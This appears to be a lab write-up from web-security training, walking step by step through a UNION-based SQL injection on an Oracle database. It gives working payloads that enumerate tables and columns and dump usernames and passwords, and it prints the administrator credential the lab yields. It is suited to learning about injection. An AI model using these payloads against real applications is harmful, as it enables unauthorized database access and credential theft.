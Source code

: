 *Lab- SQL injection attack, listing the database contents on Oracle*

*-Goals:*
- Determine which table contains the usernames and passwords
- Determine the column names in table
- Output the content of the table
- Login as the administrator user 

Analysis:

1. Determine the number of columns
`' order by 3--`

-> internal server error

2. Find data type of columns
`' UNION select 'a', 'a' from DUAL--`

-> Oracle database
-> both columns accept type text

3. Output the list of tables in the database
`' UNION SELECT table_name, NULL FROM all_tables--`

-> `USERS_FJBPQR`

4. Output the column names of the users table
`' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_FJBPQR'-- `

-> `PASSWORD_ZXVPNJ ___ USERNAME_BFRPJO`

5) Output the list of usernames/passwords

`' UNION select USERNAME_BFRPJO, PASSWORD_ZXVPNJ from USERS_FJBPQR--`

> administrator
> c1ef8tsepbvvq027ahe4